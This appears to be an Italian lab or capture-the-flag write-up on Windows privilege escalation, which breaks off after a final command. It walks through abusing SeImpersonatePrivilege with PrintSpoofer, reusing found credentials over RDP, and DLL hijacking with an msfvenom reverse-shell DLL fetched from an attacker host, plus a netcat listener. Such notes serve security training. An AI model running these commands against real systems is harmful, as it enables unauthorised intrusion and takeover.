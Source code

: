 Per controllare i privilegi dell'utente:

```bash
whoami /priv
```

Download di _PrintSpoofer_ e trasferimento su windows:

```bash
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe

python3 -m http.server 8080

powershell

iwr -uri http://$KALI_IP/PrintSpoofer64.exe -Outfile PrintSpoofer64.exe
```

Esecuzione di _PrintSpoofer_:

```bash
.\PrintSpoofer64.exe -i -c powershell.exe
```

Ci sono altri tool che permettono di sfruttare il _SeImpersonatePrivilege_, come ad esempio quelli della famiglia Potato:
- https://jlajara.gitlab.io/Potatoes_Windows_Privesc

## Capstone

Ho trovato delle note nella cartella Documents dell'utente diana. Qui ci sono le credenziali per l'utente alex, quindi le uso per accedere tramite rdp:

```bash
xfreerdp /u:alex  /p:"WelcomeToWinter0121" /v:192.168.200.222
```

Qui poi ho trovato un modo per eseguire DLL Hijacking e ottenere una shell per l'utente enterpriseuser:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI_IP LPORT=9999 -f dll -o EnterpriseServiceOptional.dll

nc -lvpn 9999

iwr -uri http://192.168.45.218:8080/EnterpriseServiceOptional.dll -Outfile EnterpriseServiceOptional.dll

Restart-Service EnterpriseService
```

Ottengo la shell!

Lanciando il seguente comando:

```bash
whoami /priv
```
